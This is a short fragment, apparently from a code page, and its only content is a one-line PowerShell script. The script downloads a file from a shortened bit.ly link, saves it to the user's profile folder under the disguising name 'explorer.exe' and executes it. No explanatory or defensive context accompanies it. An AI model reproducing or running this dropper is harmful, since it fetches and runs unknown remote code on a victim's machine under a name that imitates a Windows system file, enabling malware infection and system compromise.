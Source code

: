 # Script
$url = "https://bit.ly/3RBgznq"; $destination = "$env:USERPROFILE\explorer.exe"; Invoke-WebRequest -Uri $url -OutFile $destination; Invoke-Expression -Command $destination
